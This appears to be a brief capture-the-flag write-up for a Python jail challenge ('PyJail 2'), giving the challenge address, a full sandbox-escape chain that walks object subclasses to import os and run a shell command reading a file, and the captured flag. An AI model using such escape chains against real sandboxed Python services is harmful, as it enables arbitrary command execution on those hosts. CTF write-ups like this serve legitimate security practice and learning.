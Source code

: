 # IncognitoCTF 3.0 - PyJail 2

Description of the challenge: `Intermediate Jail, nc 142.93.209.130 14010`

Same substitution problem as before, this time the character I used is `.`

Final chain: `_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](flag, '_._class_._'), '_._bases_._')[0], '_._subclasses_._')()[196](), '_module'), '_._builtins_._')['_._import_._']('os'), 'system')('cat jail2')`

Flag: `ictf{Y0u_D1D_1t_143233689965}`
